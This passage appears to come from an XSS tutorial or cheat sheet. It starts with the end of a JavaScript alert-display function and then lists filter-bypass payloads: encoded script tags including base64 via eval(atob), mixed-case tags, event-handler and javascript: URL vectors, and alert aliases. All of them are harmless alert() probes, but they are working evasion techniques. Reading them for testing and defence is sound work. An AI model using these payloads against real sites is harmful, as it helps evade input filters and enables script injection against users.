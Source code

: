 ```javascript
    `;
    
    document.body.appendChild(alertDiv);
    
    // Auto-remove after 10 seconds
    setTimeout(() => alertDiv.remove(), 10000);
}

// Show alert after 3 seconds
setTimeout(showSecurityAlert, 3000);
</script>
```

## 🚀 Advanced XSS Techniques

### 1. 🛡️ Filter Bypass Techniques

#### Encoding Bypasses
```javascript
// HTML entity encoding
&lt;script&gt;alert('XSS')&lt;/script&gt;

// URL encoding
%3Cscript%3Ealert('XSS')%3C/script%3E

// Double URL encoding
%253Cscript%253Ealert('XSS')%253C/script%253E

// Unicode encoding
\u003cscript\u003ealert('XSS')\u003c/script\u003e

// Hex encoding
<script>alert(String.fromCharCode(88,83,83))</script>

// Base64 encoding
<script>eval(atob('YWxlcnQoJ1hTUycpOw=='))</script>

// Octal encoding
<script>alert('\130\123\123')</script>
```

#### Case Variation and Obfuscation
```javascript
// Mixed case
<ScRiPt>alert('XSS')</ScRiPt>

// Alternative tags
<img src=x onerror=alert('XSS')>
<svg onload=alert('XSS')>
<iframe src="javascript:alert('XSS')">
<embed src="javascript:alert('XSS')">
<object data="javascript:alert('XSS')">

// Event handler variations
<div onclick=alert('XSS')>
<div onmouseover=alert('XSS')>
<div onfocus=alert('XSS') tabindex=1>
<div onload=alert('XSS')>

// JavaScript alternatives
<script>window['alert']('XSS')</script>
<script>top['alert']('XSS')</script>
<script>self['alert']('XSS')</script>
```